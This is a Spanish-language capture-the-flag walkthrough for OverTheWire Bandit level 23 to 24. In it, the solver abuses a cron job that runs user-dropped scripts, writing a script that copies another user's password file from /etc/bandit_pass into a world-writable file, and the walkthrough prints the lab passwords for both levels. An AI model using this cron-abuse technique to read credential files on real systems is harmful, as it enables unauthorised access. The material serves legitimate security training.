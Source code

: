 

# Level 23 -> 24

# Descripcion

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

# Datos de Acceso

Bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

# Solución

```bash
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/sorryIHackedYou
bandit23@bandit:~$ cd /tmp/sorryIHackedYou
bandit23@bandit:/tmp/sorryIHackedYou$ nano acvscript.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/sorryIHackedYou$ cat acvscript.sh
cat /etc/bandit_pass/bandit24 > /tmp/sorryIHackedYou/password
bandit23@bandit:/tmp/sorryIHackedYou$ chmod 777 acvscript.sh
bandit23@bandit:/tmp/sorryIHackedYou$ touch password
bandit23@bandit:/tmp/sorryIHackedYou$ chmod 666 password
bandit23@bandit:/tmp/sorryIHackedYou$ ls -la
total 112
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 18:33 .
drwxrwx-wt 3010 root     root     106496 Feb 28 18:33 ..
-rwxrwxrwx    1 bandit23 bandit23     62 Feb 28 18:32 acvscript.sh
-rw-rw-rw-    1 bandit23 bandit23      0 Feb 28 18:33 password
bandit23@bandit:/tmp/sorryIHackedYou$ cp acvscript.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/sorryIHackedYou$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

```

# Comentarios

|cmd| desc|
|-----|--------|
|mkdir| crear un directorio|
|cp| copiar un archivo|
|chmod| otorgar permisos personalizados a los archivos|
|touch| creamos un archivo vacio|

